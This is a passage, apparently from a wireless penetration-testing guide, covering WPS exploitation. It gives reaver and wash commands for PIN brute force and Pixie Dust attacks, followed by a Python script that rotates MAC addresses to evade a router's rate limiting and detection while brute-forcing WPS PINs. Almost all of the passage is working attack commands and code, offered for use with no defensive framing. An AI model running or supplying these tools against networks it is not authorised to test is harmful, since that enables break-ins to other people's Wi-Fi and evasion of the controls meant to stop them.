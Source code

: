 ## Phase 3: WPS Exploitation

### 3.1 WPS PIN Brute Force

```bash
# Identify WPS-enabled networks
sudo wash -i wlan0mon

# Reaver attack
sudo reaver -i wlan0mon -b [BSSID] -c [CHANNEL] -vv -K 1

# Pixie dust attack (faster)
sudo reaver -i wlan0mon -b [BSSID] -c [CHANNEL] -K 1 -P
```

### 3.2 WPS Rate Limiting Bypass

```python
#!/usr/bin/env python3
"""
WPS Rate Limiting Bypass
Implements MAC rotation to avoid detection
"""

import subprocess
import time
import random

def change_mac():
    """Generate and set random MAC address"""
    mac = "02:00:00:%02x:%02x:%02x" % (
        random.randint(0, 255),
        random.randint(0, 255), 
        random.randint(0, 255)
    )
    
    subprocess.run(['ifconfig', 'wlan0mon', 'down'])
    subprocess.run(['ifconfig', 'wlan0mon', 'hw', 'ether', mac])
    subprocess.run(['ifconfig', 'wlan0mon', 'up'])
    return mac

def wps_attack_with_rotation(bssid, channel):
    """WPS attack with MAC rotation"""
    attempt = 0
    
    while attempt < 1000:  # PIN space is ~11,000
        new_mac = change_mac()
        print(f"Attempt {attempt}: Using MAC {new_mac}")
        
        # Try 10 PINs before rotating
        cmd = f"timeout 60 reaver -i wlan0mon -b {bssid} -c {channel} -vv -r 10:10"
        result = subprocess.run(cmd.split(), capture_output=True, text=True)
        
        if "WPS PIN found" in result.stdout:
            print("SUCCESS!")
            break
            
        attempt += 10
        time.sleep(30)  # Cool down period

# Usage
if __name__ == "__main__":
    wps_attack_with_rotation("AA:BB:CC:DD:EE:FF", "6")
```